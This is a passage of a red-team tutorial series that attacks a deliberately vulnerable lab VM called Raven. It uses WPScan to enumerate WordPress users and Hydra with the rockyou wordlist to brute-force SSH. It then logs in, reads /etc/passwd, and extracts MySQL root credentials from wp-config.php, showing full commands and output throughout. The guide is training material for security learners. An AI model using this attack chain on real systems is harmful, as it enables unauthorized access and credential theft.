    Like any other CMS (Content Management System), WordPress can provide us with a great initial access vector if it has been misconfigured or is outdated. Furthermore, WordPress also utilizes various third-party plugins to extend functionality. Plugins can also be vulnerable to specific attacks if they have been poorly developed.

### WordPress Enumeration

We can scan the WordPress installation for vulnerabilities and enumerate important information like user accounts. This section shows how to perform the scan with a tool called [WPScan](https://wpscan.com/wordpress-security-scanner). WPScan is a WordPress security scanner developed for security professionals and blog maintainers to test the security of their WordPress websites. It is installed on Kali Linux by default.

1.  Run the `wpscan` CLI tool with the following options. Replace `$RAVEN_VM_IP` in this command with your Raven VM's IP:

        wpscan --url http://$RAVEN_VM_IP/wordpress --wp-content-dir -at -eu

1.  Output like the following appears:

    
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20

       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://172.28.128.13/wordpress/ [172.28.128.13]
[+] Started: Wed Dec 15 12:56:57 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://172.28.128.13/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://172.28.128.13/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://172.28.128.13/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8.7 identified (Insecure, released on 2018-07-05).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://172.28.128.13/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.8.7'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://172.28.128.13/wordpress/, Match: 'WordPress 4.8.7'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:03 <==> (10 / 10) 100.00% Time: 00:00:03

[i] User(s) Identified:

[+] steven
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] michael
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed Dec 15 12:56:04 2021
[+] Requests Done: 67
[+] Cached Requests: 4
[+] Data Sent: 15.312 KB
[+] Data Received: 18.46 MB
[+] Memory used: 135.988 MB
[+] Elapsed time: 00:00:06


1.  This section of the output shows that two account usernames were found:

    
[i] User(s) Identified:

[+] steven
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] michael
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)


    We could use these usernames to perform a brute force attack on the WordPress authentication page. This attack would identify their WordPress login passwords and provide access to the WordPress dashboard.

    However, having SSH access instead of WordPress access can be a more efficient method of attacking the server. The next section shows how to perform an SSH brute force attack in order to crack Linux user account passwords. This step assumes that the WordPress users also have Linux user accounts on the target server with the same names, which may or may not be true.

    
In a real engagement, it is recommended to also perform a WordPress login brute force attack.


## Cracking SSH Passwords

This section shows how to perform an SSH brute force attack with a tool called [Hydra](https://www.kali.org/tools/hydra/), which is a parallelized network login cracker. An SSH brute force attack reveals the password of a Linux user account on the target system. The Hydra tool is installed by default on Kali Linux and Parrot.

The username `michael` is attacked in this section. This is a WordPress user discovered during the [WordPress Enumeration](#wordpress-enumeration) phase. The SSH attack only succeeds if the `michael` username also exists as Linux user account on the target system.

1.  Return to your Kali SSH session in your terminal. Run the Hydra command with these options. Replace `$RAVEN_VM_IP` in this command with your Raven VM's IP:

        sudo hydra -l michael -P /usr/share/wordlists/rockyou.txt.gz -t 4 ssh://$RAVEN_VM_IP

    
[The `rockyou` wordlist](https://www.kali.org/tools/wordlists/) used in the brute force attack is pre-packaged with Kali Linux.


1.  Output like the following appears:

    
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-15 13:13:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.28.128.13:22/
[22][ssh] host: 172.28.128.13   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-15 13:13:37


    The brute force attack was successful, which means that the `michael` Linux user account exists on the target system. The password for the user `michael` was revealed to be `michael`.

## Gaining Initial Access Via SSH

We can use the cracked password to connect to the server via SSH:

1.  From your Kali SSH session in your terminal, initiate an SSH connection to the Raven VM. Replace `$RAVEN_VM_IP` in this command with your Raven VM's IP:

        ssh michael@$RAVEN_VM_IP

1.  The SSH connection shows the host key fingerprint of the Raven VM and asks you to confirm to proceed. Enter `yes` to proceed.

    
The authenticity of host '172.28.128.13 (172.28.128.13)' can't be established.
ED25519 key fingerprint is SHA256:vBKxJra340AKWuFf1Gc8N3KkutJRQEQTgQbj2XRXG7w.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes


1.  The password prompt appears. Enter the password `michael`. The connection is established and a command prompt is shown:

    
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
michael@Raven:~$


## Local Enumeration

After logging into the target server, you can perform local enumeration in order to obtain the following information:

- [Kernel version](#enumerate-kernel-version)

- [Distribution release version](#enumerate-distribution-release-version)

- [Linux user accounts](#enumerate-linux-user-accounts)

- [Running services and ports](#enumerate-running-services-and-ports)

For the commands in each of the following sections, run the commands from your Raven SSH connection.

### Enumerate Kernel Version

The kernel version on the target system can be found by running:

    uname -a

The output shows the target system is running an outdated kernel. This information is useful during the [privilege escalation phase](/docs/guides/linux-red-team-privilege-escalation-techniques/):


Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux


### Enumerate Distribution Release Version

The Linux distribution release version of the target system can be found by running:

    cat /etc/*release

The output shows that the target system is running Debian 8:


PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
NAME="Debian GNU/Linux"
VERSION_ID="8"
VERSION="8 (jessie)"
ID=debian
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"


### Enumerate Linux User Accounts

Now that we have an idea of what kernel and distribution are running on the target system, we can enumerate the users on the system. This can be done by running:

    cat /etc/passwd

The output shows a number of users, including a MySQL user and the `steven` user that was found during the [WordPress enumeration](#wordpress-enumeration) phase:


mysql:x:110:116:MySQL Server,,,:/nonexistent:/bin/false
steven:x:1001:1001::/home/steven:/bin/sh


### Enumerate Running Services and Ports

Enumerating the services running on the target system can provide other attack vectors. Run this command to see the running services and their respective ports:

    netstat -lnt

The netstat flags used in the preceding command and their functions are explained below:

| Option | Description |
|--------|-------------|
| `-l` | Show listening sockets |
| `-n` | Show IPs instead of hostnames and port numbers instead of service names |
| `-t` | Show only TCP connections |

The output looks like the following:


Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:35801           0.0.0.0:*               LISTEN
tcp6       0      0 :::42350                :::*                    LISTEN
tcp6       0      0 :::111                  :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN


The first line of this output shows a service running on port 3306. This is the MySQL service. The system's MySQL database is used as the storage backend for the WordPress website.

This service has been configured to run on localhost, as opposed to being exposed to the internet. This means that we can authenticate with the MySQL server locally. To connect to the MySQL server, we first need to find the MySQL authentication credentials.

## Taking Control of the MySQL Server

This section shows how to find the MySQL authentication credentials and then how to connect to the MySQL server:

1.  By default, WordPress stores the database credentials in [a file called `wp-config.php`](https://wordpress.org/support/article/editing-wp-config-php/). On the Raven VM, this file is located in `/var/www/html/wordpress`. In your Raven SSH connection, navigate to this directory:

        cd /var/www/html/wordpress

1.  Display the contents of the `wp-config.php` file:

        cat wp-config.php

1.  The relevant MySQL settings and credentials are shown in the output:

    
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');


    The database username is `root`, and the password is `R@v3nSecurity`. With root access to the MySQL server, you are able to view any database and perform any action on those databases.

1.  Connect to the MySQL server using the `root` user:

        mysql -u root -p

1.  The command prompts you to enter the password for the MySQL root user. Enter the password obtained from the `wp-config.php` file (`R@v3nSecurity`).

1.  A MySQL server prompt appears:

    
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 121
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>


## Next Steps

We have now been able to obtain an initial foothold on the target system and take control of the MySQL database server. The next steps for targeting Linux systems include:

- [Elevating your privileges on the target system](/docs/guides/linux-red-team-privilege-escalation-techniques/)

- [Establishing persistence to maintain access](/docs/guides/linux-red-team-persistence-techniques/)

Visit the [HackerSploit Red Team parent page](/docs/guides/hackersploit-red-team-series/) to navigate to other parts of this guide series.